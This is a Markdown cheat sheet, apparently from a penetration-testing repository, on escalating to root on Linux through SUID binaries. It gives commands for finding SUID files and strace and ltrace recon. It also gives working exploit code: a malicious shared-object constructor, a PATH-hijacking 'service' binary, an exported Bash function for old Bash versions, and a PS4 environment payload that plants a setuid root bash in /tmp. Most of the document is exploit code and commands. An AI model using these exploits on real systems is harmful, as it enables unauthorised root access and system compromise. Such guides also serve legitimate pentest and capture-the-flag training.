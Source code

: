 # SUID

## Find SUID files

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

- Search on GTFOBins for exploitation: [https://gtfobins.github.io/](https://gtfobins.github.io/)
- Use searchsploit: `searchsploit suidprogram 2.3`

## Shared Object

Use strace to find the shared objects not found.

```bash
$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

In the result above, the program is trying to load a shared object from the user directory.

1 - Create the directory  /home/user/.config
2 - cd into .config directory
3 - create the shared object libcalc.so

```c
#include 
#include 

static void inject() __attribute__((constructor));
 void inject() {
	setuid(0);
	system("/bin/bash -p"); 
}
```

Compile:

```c
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

Execute the SUID file to gain root shell:

```c
/usr/local/bin/suid-so
```

## PATH Environment Variable

We create a reverse shell embedded into a program with the same name as one of the programs used by the SUID programs.

For example:

`/usr/bin/mysuidprogram` is a program that start an apache server using the string `service apache start`. We could then create a file named `service` located in our user home directory
and append the `/home/user` directory to the PATH variable.

The computer will call `/home/user/service` before `/usr/bin` and spawn a root reverse
shell.

### Finding vulnerable programs (in SUID)

```bash
# Find SUID files
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
/usr/local/bin/suid-env

Look for programs/services called inside these SUIDs
$ strings /path/to/file

$ strace -v -f -e execve 2>&1 | grep exec
[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],

$ ltrace /usr/local/bin/suid-env 2>&1 | grep service 
system("service apache2 start"

Then create a file named "service".
```

Create the exploit:

```c
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```

Compile:

```bash
gcc -o service service.c
```

Prepend the current directory to the PATH directory:

```bash
$ PATH=.:$PATH /usr/local/bin/suid-env
```

## Old Bash

Versions < 4.2-048 are vulnerable to path attack.

```bash
# Verify bash version
$ bash --version 

# Find the service called by a SUID file
$ strings /usr/local/bin/suid-env2
/usr/sbin/service apache2 start

$ strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
[pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 

Note: This time is using the absolute path.

# Exploit
Create a Bash function with the name “/usr/sbin/service” and export the function: 

$ function /usr/sbin/service { /bin/bash -p; } 
$ export –f /usr/sbin/service 

# Execute the SUID file for a root shell:
$ /usr/local/bin/suid-env2
```

Versions < 4.4 inherit the PS4 env variable.

```bash
# Find SUID/SGID files
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

# Find the service called by a SUID file
$ strings /usr/local/bin/suid-env2
/usr/sbin/service apache2 start

$ strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
[pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 

# Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2

# Run the /tmp/rootbash file with the -p command line option to get a root shell:
$ /tmp/rootbash -p
```